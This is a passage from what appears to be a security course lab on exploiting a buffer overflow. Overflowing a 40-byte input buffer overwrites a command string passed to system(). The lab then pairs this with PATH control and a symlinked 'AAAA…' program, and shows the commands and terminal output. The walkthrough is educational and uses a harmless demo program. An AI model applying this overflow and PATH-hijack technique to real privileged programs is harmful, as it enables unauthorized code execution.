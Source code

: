 ```
char cmd[1024] = "/bin/cat ./"; //will append to this string

char input[40];
```

When the input buffer overflows, we begin to write 'A's to cmd which replaces "/bin/cat".
Finally, we concatenate cmd with input, resulting in a long string of 'A's for the command being executed by `system()`.
We can see this from the error output.

How do we leverage this error to pwn this program?
The program is trying to execute a command that is "AAA…" and we can control the `PATH`.
Let's create such a program named "AAA…" Rather than writing a new program, we can use sym-linking.

```
ln -s cat AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
aviv@saddleback: demo $ ./AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Goodbye World
```

Now when we execute the overflow, we get our desired "Goodbye World" result:

```
aviv@saddleback: demo $ python -c "print 'A'*50" | ./overflow_system
What input do you want to 'cat' (choose from below)
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
cat
cat.c
execvp_cat
execvp_cat.c
inject_system
inject_system.c
inject_system.c~
input.txt
Makefile
mal-lib
overflow_system
overflow_system.c
overflow_system.c~
run_foo
run_foo.c
run_foo.o
setenv_cat
setenv_cat.c
setenv_cat.c~
shared-lib
system_cat
system_cat.c
#system-ex.c#
input > Executing: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Goodbye World
```
